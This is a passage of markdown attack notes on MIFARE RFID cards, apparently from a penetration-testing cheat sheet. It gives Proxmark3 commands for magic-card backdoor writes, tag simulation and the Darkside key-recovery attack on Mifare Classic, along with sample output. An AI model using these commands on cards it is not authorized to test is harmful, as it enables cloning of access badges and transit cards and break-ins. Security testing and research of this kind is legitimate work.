 ### HF - Mifare DESFire

> No known attacks yet ! Unencrypted sectors can be read, also you can try to look for default keys. All MIFARE cards are prone to relay attack.

*   Mifare DESFire [MF3ICD40](https://arstechnica.com/information-technology/2011/10/researchers-hack-crypto-on-rfid-smart-cards-used-for-keyless-entry-and-transit-pass/): uses Triple DES encryption, product discontinued.

    ```powershell
    It requires the attacker to have the card itself, an RFID reader, and a radio probe. 
    Using differential power analysis, data is collected from radio frequency energy 
    that leaks out of the card (its “side channels”).
    ```
* Mifare DESFire EV1 : the challenge is done with AES or 3DES.
* Mifare DESFire EV2

### HF - Mifare Ultra Light

* Ultralight C (3DES authentication)
* Ultralight EV1
* NTAG2

#### Chinese backdoor

```powershell
pm3 --> hf 14a raw -p -b 7 40
pm3 --> hf 14a raw -p 43
pm3 --> hf 14a raw -p -c a20059982120

0x40, init backdoor mode
0x41, wipe fills card with 0xFF
0x42, fills card with 0x00
0x43, no authentication needed.  issue a 0x3000 to read block 0, or write block.
0x44, fills card with 0x55
```

#### Simulate

```powershell
hf 14a sim 2 <7-byte tag>
```

### HF - Mifare Classic 1k

New method for Proxmark : `hf mf autopwn`

#### Darkside attack (PRNG Weak)

**Proxmark method**

```powershell
pm3> hf search
pm3> hf mfu
pm3> hf mf darkside  (fork command)
pm3> hf mf mifare    (original command)
Parity is all zero. Most likely this card sends NACK on every failed authentication. # Card is empty...
or
Found valid key:ffffffffffff # KEY_FOUND

pm3> hf mf chk 0 A KEY_FOUND    (Check Found Key On Block 0 A)
```
